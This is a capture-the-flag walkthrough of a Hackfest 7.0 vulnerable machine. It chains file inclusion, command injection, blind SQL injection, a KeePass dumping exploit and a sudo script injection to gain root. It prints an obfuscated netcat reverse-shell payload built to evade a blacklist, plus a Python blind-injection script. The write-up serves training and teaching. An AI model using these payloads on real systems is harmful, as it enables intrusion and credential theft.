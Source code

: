 I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0:\
<br>
</br> 
![img](images/image_2023-06-26_001633995.png)\
<br>
</br>
Let's first start with a scan to discover open ports:\
<br>
</br>
![img](images/image_2023-06-25_221255274.png)\
<br>
</br>
So let's go ahead and check the web app on port 80:\
<br>
</br>
![img](images/image_2023-06-25_221211894.png)\
<br>
</br>
We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:\
<br>
</br>
![img](images/image_2023-06-25_221230171.png)\
<br>
</br>
It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take: ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:\
<br>
</br>
![img](images/image_2023-06-25_221346724.png)\
<br>
</br>
And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:\
<br>
</br>
![img](images/image_2023-06-25_221412943.png)\
<br>
</br>
We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:\
<br>
</br>
![img](images/image_2023-06-25_221430709.png)\
<br>
</br>
We type any command and we find it is vulnerable to command injection:\
<br>
</br>
![img](images/image_2023-06-25_221442066.png)\
<br>
</br>
But when we type some other commands it tells us to get away, not very polite huh? :\
<br>
</br>
![img](images/image_2023-06-25_221518226.png)\
<br>
</br>
It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:\
<br>
</br>
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :D , and we get a callback from the server:\
<br>
</br> 
![img](images/image_2023-06-25_223318248.png)\
<br>
</br>
![img](images/image_2023-06-25_223328201.png)\
<br>
</br>
Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:\
<br>
</br>
![img](images/image_2023-06-25_223347505.png)\
<br>
</br>
This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps: you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):\
<br>
</br>
![img](images/image_2023-06-25_225508169.png)\
<br>
</br>
![img](images/image_2023-06-25_225517751.png)\
<br>
</br>
And now we can access it from ``http://127.0.0.1:10003``:\
<br>
</br>
![img](images/image_2023-06-25_225533101.png)\
<br>
</br>
Now let's try to test a bunch of different things:\
<br>
</br>
![img](images/image_2023-06-25_225552903.png)\
<br>
</br>
![img](images/image_2023-06-25_225605097.png)\
<br>
</br>
Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.
![img](images/image_2023-06-25_225747594.png)\
<br>
</br>
After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:\
<br>
</br>
``python
#!/usr/bin/python
import requests
def string(start,end):\
<br>
</br>
        str=''
        for i in range(start,end):
    \
    <br>
    </br>
                str+=chr(i)
        return str
def passwd():\
<br>
</br>
        url='http://127.0.0.1:10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
    \
    <br>
    </br>
                for i in test:
            \
            <br>
            </br>
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                    \
                    <br>
                    </br>
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':\
<br>
</br>
        passwd()
``
And we run it:\
<br>
</br>
![img](images/image_2023-06-25_231535263.png)\
<br>
</br>
And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:\
<br>
</br>
![img](images/image_2023-06-25_231850578.png)\
<br>
</br>
And we get our first flag: ``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:\
<br>
</br>
![img](images/image_2023-06-25_232511782.png)\
<br>
</br>
I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it:``https://github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is:``mallafouedyesahby``
We open it and we get the creds for iwd user (shoutout to my good friend iwd):\
<br>
</br>
![img](images/image_2023-06-25_233142947.png)\
<br>
</br>
The password is:``CryptoIs5omtime5UsEFuL``
So we go ahead and ssh into the machine using iwd user:\
<br>
</br>
![img](images/image_2023-06-25_233848208.png)\
<br>
</br>
And we get the second flag:``Hackfest{65f69907711675ddb07e832539333a6f}``
Enumerating the machine we find that iwd user can execute this command as sudo:\
<br>
</br>
![img](images/image_2023-06-25_233904294.png)\
<br>
</br>
And we can take a look at the source code for the bash script:\
<br>
</br>
![img](images/image_2023-06-25_234055785.png)\
<br>
</br>
This is basically an email checker that requires a specific format as specified in the script and it is vulnerable to command injection in the ``Request`` field, so let's exploit it:\
<br>
</br>
![img](images/image_2023-06-26_001223527.png)\
<br>
</br>
And yes we are ROOT!
And here is out final flag:``Hackfest{7a899205babaab8623b7cb007b843115}``
